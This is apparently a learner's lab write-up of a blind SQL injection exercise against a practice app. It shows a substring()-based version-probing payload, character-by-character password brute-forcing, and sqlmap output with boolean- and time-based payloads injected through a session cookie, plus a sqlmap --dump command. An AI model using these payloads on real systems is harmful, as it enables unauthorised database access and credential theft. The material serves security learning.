

We found our injection but this is a Blind Sql Injection cuz the query is only changing the behaviour the application.
i.e. showing welcome messsage to us
It will not give us data from the databse.
We have to create payloads that produce true false outputs and based on the behaviour we can slowly extract data.
So will ask the database simply yes/or questions
eg: 1st character of the username is a yes or no.
eg: 1st character of Jeremy password is A ?
Will use a function called Substring
substr()
Syntax
SUBSTRING(string, start, length)

We do get a valid response
We acutally want to compare this to something that we grab from the databse.
command: substring((select version()), 1,1) = '7'#
And we got a failed response that is change in the content-length
Let's check with 8 and i was even getting error with that cuz there was space b/w substring and (

And we get the valid response
And with little more input and validation got to know that mysql version is 8.0.3
Now will use to see the password of User Jessamy from injection0x02 database and autmate it with introder to get the 1st character of the password

Will add 0-9 and a-z in the payload manually typing it from the keyboard.
As you can see that we got the 1st character of the passoword which is z but in the real password Z is capital but sql is giving us true cuz it is not case senstivie.
Will use SQLmap now
We got this error as we haven't inject the cookie

will use --level=2in order to get the things running


Cookie parameter 'session' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 284 HTTP(s) requests:
---
Parameter: session (Cookie)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9215=9215 AND 'wXiv'='wXiv; ajs_anonymous_id=5fcc0d10-51f3-4cea-b6bf-f71c74410776
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 1741 FROM (SELECT(SLEEP(5)))wmTo) AND 'RjJH'='RjJH; ajs_anonymous_id=5fcc0d10-51f3-4cea-b6bf-f71c74410776
---
[20:37:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
Command:
$ sqlmap -r req2.txt --level=2 --dump -T injection0x02


If we didn't use -T injection0x02
We even get this as output

We get almost all the data with just a cookie using sqlmap.